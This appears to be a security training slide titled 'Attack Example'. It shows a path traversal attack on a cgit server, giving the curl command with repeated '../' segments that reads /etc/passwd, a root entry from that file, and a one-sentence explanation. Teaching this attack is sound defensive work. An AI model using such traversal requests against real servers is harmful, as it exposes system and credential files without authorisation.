

# Attack Example
$ curl http://127.0.0.1/cgit/repo/objects/?path=../../../../../../../../../etc/passwd root:x:0:0:root:/root:/bin/sh
We can see the attcker issues a curl request to the cgit server and by using a path that includes ../../ he gains acces to the sensetive password file.